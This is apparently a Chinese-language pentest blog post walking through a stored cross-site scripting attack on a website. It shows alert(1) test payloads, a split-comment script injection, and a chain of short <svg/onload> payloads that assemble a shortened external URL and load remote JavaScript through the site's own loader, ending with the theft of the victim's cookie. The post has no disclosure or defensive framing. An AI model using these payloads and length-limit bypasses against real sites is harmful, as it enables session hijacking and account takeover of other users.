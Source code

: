 +++
date = "2016-07-17T23:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS实例"
topics = ["Pentest"]

+++

首先感谢凯神的指导。。。
### 0x00 注册账号
> 先得到一个临时邮箱，然后注册账号
{{% fluid_img src="/img/post/xss_example_get_temporary_email.png" alt="xss实例申请临时邮箱" %}}
<br /><br />
{{% fluid_img src="/img/post/xss_example_register.png" alt="xss实例注册账号" %}}

### 0x01 找输入输出点
> {{% fluid_img src="/img/post/xss_example_add_topic.png" alt="xss实例添加关注" %}}
<br /><br />
{{% fluid_img src="/img/post/xss_example_input_output_point.png" alt="xss实例输入输出点" %}}

### 0x02 尝试构造payload
> payload用如下的即可：
```
<script>alert(1)</script>
"><script>alert(1)</script><a
```
但是这个要在点击删除时payload才起作用
{{% fluid_img src="/img/post/xss_example_payload_test.png" alt="xss实例payload test" %}}
```
也可用<img src=1 onerror=alert(1) />自动加载，但也要点击删除按钮才能起作用  
但是我们若想充分利用则需要远程加载自己的js
```

### 0x03 加载自己的js
* 此时的限制条件为：

> ```
* 30个字符
* script标签不能自己触发
```

* 只能构造类似下面的语句自己加载脚本：

> ```
a=document.createElement('script');
a.src="www.xxx.com";
document.head.appendChild(a);
```

* 可以用如下方法分割，多次添加：

> ```
a=document.createE/*
*/lement('script');/*
*/a.src="www.xxx.com";/*
*/document.head.app/*
*/endChild(a);

但此处不可行，考虑直接用JQuery等的函数getScript(URL)直接加载url，然而此处依然不行
```

* 查找
{{% fluid_img src="/img/post/xss_example_find_loadjs.png" alt="xss实例发现网站自己的加载js的函数" %}}

* 构造payload
{{% fluid_img src="/img/post/xss_example_short_url.png" alt="xss实例使用js短网址" %}}

> ```
使用如下payload：
<svg/onload="b='http://t.i'">
<svg/onload="b+='m/16ap6'">
<svg/onload="$loadJs(b)">
```

### 0x04 得到Cookie
> {{% fluid_img src="/img/post/xss_example_get_cookie.png" alt="xss实例得到Cookie" %}}